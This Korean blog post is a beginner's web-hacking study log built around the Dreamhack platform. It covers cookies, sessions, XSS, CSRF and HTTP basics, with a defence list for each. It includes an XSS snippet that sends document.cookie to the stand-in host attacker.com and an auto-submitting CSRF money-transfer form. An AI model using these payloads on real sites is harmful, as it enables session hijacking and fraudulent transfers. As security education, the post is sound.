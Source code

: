 ```yaml
---
title: "웹해킹 1주차"
description:
date: 2025-05-08
update: 2021-05-08
tags:
  - 웹해킹
series: "웹해킹킹"
---
```

# 🌱 Dreamhack 새싹 문제 풀이 & 웹 해킹 로드맵 학습 정리

요즘 웹 해킹 공부를 본격적으로 시작하면서 Dreamhack이라는 플랫폼을 활용하고 있어요.  
실습 중심이라 직접 손으로 해보며 배우기 좋고, 강의도 체계적으로 잘 구성되어 있어서 혼자 공부하기에 정말 괜찮습니다.  
이 글에서는 지금까지 풀어본 문제들과 수강한 강의, 그리고 각 취약점에 대한 개념과 예시까지 정리해보려고 합니다.

---

## ✅ 1. 새싹 단계 문제 풀이 (총 13문제)

Dreamhack의 새싹 단계 문제들은 웹 해킹 입문자에게 최적화되어 있어요.  
웹 개발을 조금 해보신 분이라면 전부 풀이 가능하다고 생각합니다.  

제가 풀었던 문제는 아래와 같습니다:

- https://dreamhack.io/wargame/challenges/267  
- https://dreamhack.io/wargame/challenges/850  
- https://dreamhack.io/wargame/challenges/830  
- https://dreamhack.io/wargame/challenges/96  
- https://dreamhack.io/wargame/challenges/266  
- https://dreamhack.io/wargame/challenges/6  
- https://dreamhack.io/wargame/challenges/45  
- https://dreamhack.io/wargame/challenges/12  
- https://dreamhack.io/wargame/challenges/37  
- https://dreamhack.io/wargame/challenges/1  
- https://dreamhack.io/wargame/challenges/1113  
- https://dreamhack.io/wargame/challenges/834  
- https://dreamhack.io/wargame/challenges/873

문제를 풀다 보면 단순히 정답을 맞추는 것이 아니라,  
공격 흐름과 시스템의 취약한 구조까지 생각해보게 되면서 사고방식 자체가 달라지는 걸 느낄 수 있어요.

---

## 📚 2. Dreamhack 웹 해킹 로드맵 수강

문제 풀이만으로는 부족하다고 느껴서 Dreamhack의 공식 로드맵 강의도 함께 수강했습니다.  
강의는 실습 중심이고 개념도 쉽게 설명해줘서 복습용으로도 좋았어요.

### ✅ 수강 완료
- [웹 해킹 로드맵](https://dreamhack.io/lecture/roadmaps/1)

### 📌 수강 예정
- [웹 취약점 심화 로드맵](https://dreamhack.io/lecture/roadmaps/13)  
- [보안 개발자를 위한 웹 취약점 로드맵](https://dreamhack.io/lecture/roadmaps/15)

---

## 🔐 쿠키 & 세션

### ✅ 쿠키(Cookie)란?

쿠키는 브라우저에 저장되는 작은 데이터로, 서버가 응답 시 아래처럼 설정해줍니다.

```http
Set-Cookie: session_id=abc123; HttpOnly; Secure
```

이후 클라이언트는 요청할 때마다 자동으로 전송해요:

```http
Cookie: session_id=abc123
```

- HttpOnly: 자바스크립트로 쿠키 접근을 막아줍니다. (`document.cookie` 방어)
- Secure: HTTPS 환경에서만 쿠키가 전송되게 제한합니다.

### ✅ 세션(Session)이란?

서버에 저장되는 사용자 상태 정보입니다.  
클라이언트는 세션 ID만 들고 있고, 실제 데이터는 서버에 저장돼요.

```python
# Flask 예시
session['user_id'] = 1234
```

서버는 세션 ID를 쿠키로 전달하고, 사용자가 요청을 보낼 때마다 ID를 이용해 해당 세션 정보를 불러옵니다.

---

## 🧨 XSS (Cross Site Scripting)

### ✅ XSS란?

사용자의 입력을 필터링하지 않고 페이지에 그대로 출력할 경우, 악성 스크립트가 실행되는 취약점입니다.

### ✅ 예시: document.cookie 탈취

```html
<script>
  fetch("http://attacker.com/steal?cookie=" + document.cookie);
</script>
```

HttpOnly가 설정되어 있지 않다면 쿠키를 탈취할 수 있어요.

### ✅ Reflective XSS 흐름

```html
<!-- URL: ?q=<script>alert('xss')</script> -->
<p>검색어: <script>alert('xss')</script></p>
```

### ✅ 방어 방법

- HTML 이스케이프 처리 (`<`, `>`, `"`)
- Content-Security-Policy 헤더 설정
- HttpOnly, Secure 옵션 설정
- 입력값 검증 및 출력 위치에 따른 컨텍스트 고려

---

## 🎯 CSRF (Cross Site Request Forgery)

### ✅ CSRF란?

로그인 상태의 사용자가 의도치 않은 요청을 하게 만드는 공격입니다.

### ✅ 예시

```html
<form action="https://bank.com/transfer" method="POST">
  <input type="hidden" name="to" value="attacker">
  <input type="hidden" name="amount" value="10000">
</form>

<script>document.forms[0].submit();</script>
```

브라우저는 세션 쿠키를 자동으로 보내기 때문에 실제 사용자 권한으로 요청이 처리됩니다.

### ✅ 방어 방법

- CSRF 토큰 사용 (`<input type="hidden" name="csrf_token" value="...">`)
- Referer / Origin 헤더 검증
- 쿠키에 SameSite=Lax 또는 SameSite=Strict 옵션 설정

---

## 🌐 웹 기초 지식 요약

### ✅ 요청 / 응답 구조

```http
GET /index.html HTTP/1.1
Host: example.com
```

응답:

```http
HTTP/1.1 200 OK
Content-Type: text/html

<html>...</html>
```

BurpSuite 같은 도구를 사용하면 이 흐름을 실시간으로 가로채고 수정해볼 수 있어요.

이 구조를 이해하면 XSS나 CSRF 같은 취약점도 흐름상으로 이해하기 훨씬 쉬워집니다.

---

## 🛠️ SQLi 학습 준비

SQL Injection 학습을 위한 준비로 SQL 문법을 복습하고 있어요.  
기초적인 CRUD 명령들을 다시 정리하면서, 실제 쿼리가 어떻게 작동하는지 감을 익히는 중입니다.

### ✅ 복습한 내용

- CREATE, DROP  
- INSERT, SELECT, UPDATE, DELETE  

조만간 Dreamhack의 SQLi 강의 및 실습 문제도 풀면서 그 내용을 따로 정리해볼 예정이에요.

---

## ✍️ 마무리

이번 글에서는 Dreamhack 새싹 단계 문제 풀이와  
웹 해킹 로드맵 강의 수강, 그리고 주요 취약점 개념(Cookie/Session, XSS, CSRF 등)에 대해 실습 중심으로 정리해봤습니다.

혼자 공부하시는 분들께는 Dreamhack 플랫폼 정말 추천드리고 싶어요.  
실습 → 개념 → 적용까지 흐름이 잘 잡혀 있어서 보안 쪽을 입문할 때 접근하기 수월했습니다.

다음에는 SQLi, Command Injection, LFI, SSRF 같은 취약점도 하나씩 실습하고 정리해보겠습니다.  
읽어주셔서 감사합니다!
